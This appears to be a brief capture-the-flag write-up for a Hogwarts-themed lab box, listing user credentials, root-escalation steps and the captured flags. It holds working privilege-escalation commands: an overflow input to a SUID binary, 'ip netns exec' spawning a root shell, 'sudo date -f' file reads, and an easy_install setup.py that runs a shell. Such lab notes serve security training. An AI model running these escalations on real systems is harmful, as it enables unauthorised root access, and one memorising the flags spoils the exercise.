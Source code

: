 # HOGWARTS -->

# Users:

```hermoine```

```neville:eos34dqa7qgwq8@006oudrri1 ```

```draco:slytherin```

# Paths to root

/etc/room_of_requirement is a suid binary that will grant a root shell with: ```{ echo -e "012345678901234567890123\xbe\xba\xfe\xca"; cat; } | /etc/room_of_requirement```

```/bin/ip``` has the suid bit set. this can get root via:

```ip netns add foo```
```ip netns exec foo /bin/sh -p```



hermoine can run date as sudo, though this just allows file read as far as i can tell with date -f file



draco can run easy_install as root, which can privesc via:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF


# Flags:
```
THM{Albus_Perciva1_Wu1fric_Brian_Dumb1ed0re}
```
```
THM{its_wingardium_laviosaa_Ron}
```
```
THM{Yeah_1_swallowed_the_sn1tch.}
```
```
THM{I_unarm3d_dumbled0re}
```
